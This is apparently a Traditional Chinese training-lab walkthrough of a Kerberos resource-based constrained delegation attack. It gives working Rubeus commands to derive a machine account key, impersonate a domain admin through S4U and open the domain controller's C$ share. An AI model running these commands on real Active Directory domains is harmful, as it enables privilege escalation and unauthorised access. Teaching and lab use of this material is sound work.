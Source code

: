 # Exercise 6 - Kerberos Ressource-based Constrained Delegation

## Tools

所需工具：

- PowerView: [https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
- Rubeus: [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)


## Theory

### RBCD 正常用法

![](../images/2022-06-20-21-25-22.png)

### RBCD 攻擊

![](../images/2022-06-20-21-33-55.png)

## Exercise

實驗三中，攻擊者利用NTLM Relay將AD-01的RBCD(ressource-based constrained delegation)權限委派給evilpc$，在此實驗中我們將使用已擁有的evilpc$帳密模擬RDBC的攻擊，在此案例中，evilpc$可偽冒任意的domain user的身分使用AD-01上的任意服務。

使用最高權限載入所需powershell模組

```powershell
cd C:\attacker-tools
cat -raw .\Invoke-Rubeus.ps1 | iex
```

使用一個獨立於john的powershell session

```powershell
Invoke-Rubeus -Command "createnetonly /program:C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe /show"
```


利用evilpc$的明文密碼生成加密TGS封包的AES KEY

```powershell
Invoke-Rubeus -Command "hash /password:EvilPassword1 /domain:contoso.com /user:evilpc$"
```

利用 S4U2SELF偽冒domain admin user `Bruce Willis` (bwillis)並使用S4U2PROXY分別取得AD-01上的CIFS、HOST和RPCSS的Service Ticket，
這三個SPN分別為以下服務:
- CIFS : SMB
- HOST、RPCSS : WMI


```powershell
Invoke-Rubeus -Command "s4u /user:evilpc$ /aes256:7217DCA9120F62686DB482695281FA79A3F2836553757E4FE5DDB37DB7D638FC /impersonateuser:bwillis /msdsspn:cifs/ad-01.contoso.com /ptt"
Invoke-Rubeus -Command "s4u /user:evilpc$ /aes256:7217DCA9120F62686DB482695281FA79A3F2836553757E4FE5DDB37DB7D638FC /impersonateuser:bwillis /msdsspn:host/ad-01.contoso.com /ptt"
Invoke-Rubeus -Command "s4u /user:evilpc$ /aes256:7217DCA9120F62686DB482695281FA79A3F2836553757E4FE5DDB37DB7D638FC /impersonateuser:bwillis /msdsspn:rpcss/ad-01.contoso.com /ptt"
```

- 查看kerberos票證

```powershell
klist
```

- 嘗試存取SMB
```powershell
ls \\ad-01.contoso.com\C$
```
